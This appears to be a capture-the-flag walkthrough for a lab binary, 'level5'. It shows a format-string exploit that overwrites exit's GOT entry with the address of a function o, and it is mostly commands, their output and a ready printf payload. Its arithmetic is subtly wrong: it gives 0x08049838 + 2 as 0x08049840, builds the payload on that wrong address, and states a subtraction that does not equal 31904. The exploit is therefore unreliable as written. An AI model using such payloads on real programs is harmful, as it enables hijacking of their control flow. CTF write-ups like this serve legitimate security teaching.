 In the code we can observe an unprotected call to `printf` that could enable us to replace the address of `exit` with the address of `o`.

## Investigation

1) We need to know at which argument our buffer is stored in `printf`.
     ```shell
     $ ./level5 < <(echo 'aaaa %x %x %x %x %x')
     aaaa 200 b7fd1ac0 b7ff37d0 61616161 20782520
     ```
     Our buffer is the 4th argument.

2) Then we will need to know the address of `exit`, where we will write the address of `o`.
    ```shell
    $ objdump -R ./level5 | grep exit
    08049838 R_386_JUMP_SLOT   exit
    ```
    The address of `exit` is `0x08049838`.

3) Finally, we will need the address of `o` to replace the address of `exit`.
    ```shell
    $ objdump -t ./level5 | grep o
    080484a4 g     F .text	0000001e              o
    ```
    The function `o` is located at `0x080484a4`

## Exploit

We will use the same method used in [level4](../level4/walkthrough.md).

We will first write `0x0804`, then `0x84a4`.
* For the upper value: `0x0804 = 0d2052 - 8 = 2044` that will be written at `0x08049838 + 2 = 0x08049840`.
* The lower value: `0x84a4 = 0d33956 - 2052 - 8 = 31904` that will be written at `0x08049838`.

The completed payload will be
```
\x40\x98\x04\x08\x38\x98\x04\x08%2044x%4$hn%31904x%5$hn
```

```shell
(cat <(python -c 'print "\x40\x98\x04\x08\x38\x98\x04\x08%2044x%4$hn%31904x%5$hn"') -) | ./level5
```
